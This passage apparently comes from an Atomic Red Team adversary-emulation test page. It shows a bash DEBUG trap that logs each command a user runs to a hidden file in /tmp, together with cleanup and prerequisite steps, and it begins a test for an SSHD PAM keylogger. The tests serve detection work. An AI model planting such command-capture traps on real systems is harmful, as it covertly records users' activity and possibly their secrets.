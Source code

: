 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to store captured commands | string | /tmp/.keyboard.log|


#### Attack Commands: Run with `bash`! 


```bash
trap 'echo "$(date +"%d/%m/%y %H:%M:%S.%s") $USER $BASH_COMMAND" >> #{output_file}' DEBUG
echo "Hello World!"
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires to be run in a bash shell
##### Check Prereq Commands:
```sh
if [ "$(echo $0)" != "bash" ]; then echo -e "\n***** Bash not running! *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```




<br/>
<br/>

## Atomic Test #6 - SSHD PAM keylogger
Linux PAM (Pluggable Authentication Modules) is used in sshd authentication. The Linux audit tool auditd can use the pam_tty_audit module to enable auditing of TTY input and capture all keystrokes in a ssh session and place them in the /var/log/audit/audit.log file after the session closes.

**Supported Platforms:** Linux


**auto_generated_guid:** 81d7d2ad-d644-4b6a-bea7-28ffe43becca





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_account | Basic ssh user account for testing. | string | ubuntu|
